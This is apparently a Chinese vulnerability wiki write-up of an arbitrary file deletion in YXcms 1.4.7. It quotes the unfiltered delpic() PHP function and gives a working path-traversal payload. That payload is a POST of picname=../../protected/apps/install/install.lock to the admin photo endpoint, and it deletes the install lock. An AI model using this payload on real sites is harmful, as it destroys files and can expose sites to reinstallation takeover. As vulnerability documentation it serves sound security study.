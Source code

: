 YXcms 1.4.7 任意文件删除
========================

一、漏洞简介
------------

二、漏洞影响
------------

YXcms 1.4.7

三、复现过程
------------

### 漏洞分析

漏洞文件：protected/apps/admin/controller/photoController.php,在第355行的delpic()函数，可以看到\$picname接收POST过来的值，然后\$path等于文件开头定义的静态变量
static protected \$uploadpath=\'\';//图片上传路径
没有对传入的值进行任何的过滤，使用函数file\_exists()判断一下文件是否存在就给unlink执行删除文件了。

    public function delpic()
    {
        if(empty($_POST['picname'])) $this->error('参数错误~');
        $picname=$_POST['picname'];
        $path=$this->uploadpath;
        if(file_exists($path.$picname))
          @unlink($path.$picname);
        else{echo '图片不存在~';return;} 
        if(file_exists($path.'thumb_'.$picname))
           @unlink($path.'thumb_'.$picname);
        else {echo '缩略图不存在~';return;}
        echo '原图以及缩略图删除成功~';
    }

### 复现

需要先登录后台，然后访问之后会显示缩略图不存在

payload

    http://0-sec.org/index.php%3Fr%3Dadmin/photo/delpic

POST：

    picname=../../protected/apps/install/install.lock

![](/Users/aresx/Documents/VulWiki/.resource/YXCMS1.4.7任意文件删除/media/rId26.png)

然后访问网站首页就会自动转到安装的页面

![](/Users/aresx/Documents/VulWiki/.resource/YXCMS1.4.7任意文件删除/media/rId27.png)

看到目录下的install.lock文件已经被删除了

![](/Users/aresx/Documents/VulWiki/.resource/YXCMS1.4.7任意文件删除/media/rId28.shtml)
